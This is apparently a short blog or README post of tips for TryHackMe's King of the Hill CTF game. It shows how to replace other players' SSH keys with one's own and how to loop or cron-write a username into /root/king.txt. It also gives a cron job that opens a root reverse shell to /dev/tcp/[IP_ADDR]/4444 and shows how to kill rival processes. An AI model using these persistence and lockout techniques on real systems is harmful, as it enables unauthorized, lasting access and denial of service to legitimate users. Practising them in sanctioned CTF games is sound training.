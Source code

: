 ## Simple Tricks I use While Playing King Of The Hill

Hey guys, hope you're doing well :) 

For those who are playing [TryHackMe](https://tryhackme.com) [king of the hill](https://www.tryhackme.com/games/koth)... 

These are some tips/tricks I usually do

First thing I do when I get into the machine is deleting ssh keys and put mine

To generate id_rsa & id_rsa.pub you could use ssh-keygen

Then, enter the machine using `ssh -i id_rsa remote_username@remote_host` 

using this simple trick only you can enter the machine using ssh...

To automate putting ur username inside king.txt and make sure that there's no username except yours,u can create a simple script to do that 

```
#!/bin/bash
while :
do      
        eval "chmod 755 /root/king.txt"
        eval "chattr -i /root/king.txt"
        eval "echo [usernameHere] >> /root/king.txt"
        eval " > /root/king.txt"
done

#this script is created in 1 min :P
```
or by simpler way
```
while [[ $(cat /root/king.txt) != "[usernameHere]" ]]; do chmod 755 /root/king.txt; chattr -aie /root/king.txt; echo "[usernamehere]" >> /root/king.txt; done

#this script is created in less than minute :P

```

also u can add your username automatically by putting inside /etc/crontab

`* * * * * echo "[usernameHere]" >> /root/king.txt >/dev/null 2>&1`

and below command can be used to get persistence on the system but run it after getting root access so every minute you can get shell as root in case of someone is
trying to kill your terminal else if you do this without getting root you'll get shell as normal user not as root user

`* * * * * /bin/bash -c "/bin/bash -i >& /dev/tcp/[IP_ADDR]/4444 0>&1"`

So this one trick is to check, what loop is running if it is not yours then how you can find that loop and kill it<br>
<i><b>so for this you can check proccesses running on top in "top" command the running proccesses will be there with their PIDs</b></i>
and then...<br>

`kill -9 PID_OF_LOOP`

<i><b>there is another version of htop is also available in our machines that is "htop" but "htop" may not be available on koth machines</b></i>


#SimpleButEffective
#staySafe
